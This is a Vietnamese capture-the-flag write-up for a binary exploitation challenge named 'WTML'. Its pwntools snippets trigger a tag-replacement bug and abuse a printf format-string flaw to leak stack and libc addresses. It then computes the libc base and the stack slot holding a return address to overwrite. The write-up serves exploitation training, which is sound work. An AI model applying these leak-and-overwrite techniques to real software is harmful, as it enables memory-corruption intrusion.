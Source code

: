 ```python
    payload = b"<\0>"           # mục đích là chạy được vòng for đầu tiên của replace 1
    payload = payload.ljust(30) # không cho chạy vào if
    payload += b"</"            # thoả if để ghi đè để leak

    r.sendafter(b" WTML!\n", payload)
    r.sendlineafter(b" quit]?\n",  b'\0')   # lần nhập thứ 2 ta
    r.sendlineafter(b"tag?\n", b'\1')   # ghi đè 0x1 vào byte 0x0 ảnh trên
```

- Tiếp tục nó sẽ hỏi ta `What tag would you like to replace [q to quit]? và With what new tag?` ta vẫn sẽ trả lời để ở dòng call r8 tiếp theo nó sẽ đưa địa chỉ replace_2 thực hiện

```python
    r.sendlineafter(b" quit]?\n",  b'\0')
    r.sendlineafter(b"tag?\n", b'\1')
```

- Khi thực hiện được hàm replace_2, trong đó có một lỗi FMT ở dưới, vậy nghĩa là ta có thể sử dụng %p để leak các địa chỉ như stack, exe, libc

```c
    printf(message);
```

- Do là phải leak các địa chỉ, mà công cụ mình dùng leak là chuỗi ban đầu mình gửi vào nên ta sẽ cần sửa lại một xíu

```python
    payload = b'<\0>' + b'%40$p%53$p'.ljust(27, b'A') + b'</'

    r.sendafter(b" WTML!\n", payload)
    r.sendlineafter(b" quit]?\n",  b'\0')
    r.sendlineafter(b"tag?\n", b'\1')
```

- Đây là payload của em

```python
    r.recvuntil(b">")
    leak_stack = int(r.recv(14), 16)
    ret_replace_2 = leak_stack - 0x58
    leak_libc = int(r.recv(14), 16)
    libc.address = leak_libc - 147587
    log.info("leak libc & leak stack: " +
             hex(leak_libc) + " " + hex(leak_stack))
    log.info("libc base: " + hex(libc.address))
```

- ta không thể ret2win vì `fgets` đã giới hạn lại 100 kí tự, nhưng ta có fmt để thay đổi địa chỉ
- ở dòng `ret_replace_2 = leak_stack - 0x58` thì khi mà em leak được địa chỉ stack thì địa chỉ ta cần là địa chỉ stack chứa ret của rip của replace_2, offset từ địa chỉ ta leak được đến địa chỉ chứa ret là 0x58

![image](https://user-images.githubusercontent.com/111769169/229779727-d0d8209a-6243-4d8b-ac92-726e7e7859d2.png)

- dòng này đơn giản là leak_libc tính toán địa chỉ libc base
